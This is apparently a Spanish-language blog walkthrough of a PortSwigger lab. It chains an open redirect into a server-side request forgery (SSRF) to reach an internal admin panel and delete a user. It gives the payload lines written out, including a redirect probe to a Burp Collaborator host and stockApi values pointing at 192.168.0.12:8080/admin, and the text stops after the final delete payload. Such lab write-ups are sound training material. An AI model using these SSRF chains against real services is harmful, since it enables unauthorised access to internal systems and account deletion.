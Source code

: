 ```yaml
---
title: SSRF with filter bypass via open redirection vulnerability
description: Laboratorio de Portswigger sobre SSRF
date: 2024-11-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SSRF
tags:
  - Portswigger Labs
  - SSRF
  - SSRF with filter bypass via open redirection vulnerability
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `verificación` de `stock` que `obtiene datos` de un `sistema interno`. Para `resolver` el `laboratorio`, debemos cambiar la `URL` de `verificación` de `stock` para `acceder` a la `interfaz` de `administración` en `http://192.168.0.12:8080/admin` y `eliminar` al usuario `carlos`. El `verificador` de `stock` está restringido a `acceder` únicamente a la `aplicación local`, por lo que necesitaremos encontrar un `open redirect` que afecte a la `aplicación` primero

---

## Guía de SSRF

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SSRF` [https://justice-reaper.github.io/posts/SSRF-Guide/](https://justice-reaper.github.io/posts/SSRF-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSRF-Lab-5/image_1.png)

Pulsamos en `View details` y vemos la `descripción` del producto y dos `botones`

![](/assets/img/SSRF-Lab-5/image_2.png)

Hacemos `click` sobre `Next product` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/SSRF-Lab-5/image_3.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard` y vemos que se está haciendo una `petición` a una `url` vamos a ver si nos llega a nosotros esa `petición`

```
/product/nextProduct?currentProductId=2&path=http://7goh8fybs0v4qrewpleyopqg77dy1rpg.oastify.com 
```

Efectivamente nos llega una `petición` en `Burpsuite Collaborator` y por lo tanto, hemos encontrado un `open redirect`

![](/assets/img/SSRF-Lab-5/image_4.png)

Un `indicio` para saber si la web puede ser `vulnerable` a `open redirect` es `tramitando` esta `petición`

```
/product/nextProduct?currentProductId=2&path=test
```

Si la web es `vulnerable` a `open redirect` esto se ve `reflejado` en el `location`

![](/assets/img/SSRF-Lab-5/image_5.png)

Abusando del `open redirect` intentamos llevar a cabo un `SSRF`, sin embargo `no funciona` al `tramitarlo` por `GET`

```
/product/nextProduct?currentProductId=2&path=http://192.168.0.12:8080/admin
```

Pulsamos sobre la función `Check status` en la `descripción` de un `producto` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/SSRF-Lab-5/image_6.png)

`Vemos` que `stockApi` usa la `ruta /products` así que `construimos` un nuevo `payload`

```
stockApi=/product/nextProduct?currentProductId=2%26path=http://192.168.0.12:8080/admin
```

Hacemos `click derecho` y `seleccionamos` una de las dos `opciones`

![](/assets/img/SSRF-Lab-5/image_7.png)

Vemos el `panel administrativo`

![](/assets/img/SSRF-Lab-5/image_8.png)

Si intentamos `eliminar` al usuario `carlos` nos `mostrará` este `mensaje`, debido a que no estamos `logueamos`

![](/assets/img/SSRF-Lab-5/image_9.png)

Utilizamos el `SSRF` para `eliminar` al usuario `carlos` 

```
stockApi=/product/nextProduct?currentProductId=2%26path=http://192.168.0.12:8080/admin/delete?username=
```
